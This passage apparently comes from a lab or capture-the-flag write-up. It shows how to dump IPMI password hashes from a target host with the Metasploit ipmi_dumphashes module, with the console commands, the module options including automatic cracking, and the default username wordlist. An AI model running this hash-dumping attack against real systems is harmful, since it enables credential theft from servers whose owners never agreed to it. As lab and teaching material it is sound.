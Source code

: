 #### With MSF

Both the HackTricks post and the Rapid7 post mention a MSF module that can collect these hashes:

```

msf6 auxiliary(scanner/ipmi/ipmi_version) > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.11.124
rhosts => 10.10.11.124
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > options

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                  Current Setting                                                                 Required  Description
   ----                  ---------------                                                                 --------  -----------
   CRACK_COMMON          true                                                                            yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                                   no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                                      no        Save captured password hashes in john the ripper format
   PASS_FILE             /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS                10.10.11.124                                                                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                 623                                                                             yes       The target port
   SESSION_MAX_ATTEMPTS  5                                                                               yes       Maximum number of session retries, required on certain BMCs (HP iLO 4, etc)
   SESSION_RETRY_DELAY   5                                                                               yes       Delay between session retries in seconds
   THREADS               1                                                                               yes       The number of concurrent threads (max one per host)
   USER_FILE             /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line

```

This script will take a list of users (default list is one called `ipmi_users.txt`) and ask for hashes for each of them. That list is actually quite short:

```

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > cat /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_users.txt
[*] exec: cat /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_users.txt

ADMIN
admin
root
Administrator
USERID
guest
Admin

```
